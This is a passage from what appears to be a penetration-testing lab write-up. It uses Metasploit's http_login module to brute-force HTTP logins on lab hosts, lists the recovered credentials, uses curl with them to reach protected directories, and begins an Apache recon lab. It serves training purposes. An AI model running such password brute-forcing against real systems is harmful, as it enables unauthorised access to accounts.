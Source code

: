 ```bash
[*] Attempting to login to http://192.199.232.3:80/dir/
[+] 192.199.232.3:80 - Success: 'bob:qwerty'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 📌 *dir* directory credentials are `bob:qwerty`

```bash
curl -u bob:qwerty http://192.199.232.3/dir/
```

<details><summary>Reveal Flag - dir directory flag is: 🚩</summary></details>



```bash
msfconsole
```

```bash
use auxiliary/scanner/http/http_login 
set RHOSTS 192.199.232.3
set USER_FILE /tmp/users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /poc/
exploit
```

```bash
[*] Attempting to login to http://192.199.232.3:80/poc/
[+] 192.199.232.3:80 - Success: 'alice:password1'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 📌 *poc* directory credentials are `alice:password1`

```bash
curl --digest -u alice:password1 http://192.199.232.3/poc/
```




<details><summary>Reveal Flag - poc directory flag is: 🚩</summary></details>



## Lab 4

>  🔬 [Apache Recon: Basics](https://www.attackdefense.com/challengedetails?cid=538)
>
>  - Target IP: `192.157.222.3`
>  - Enumeration of an `Apache` HTTP server

```bash
ip -br -c a
	eth1@if172533   UP   192.157.222.2/24 
```
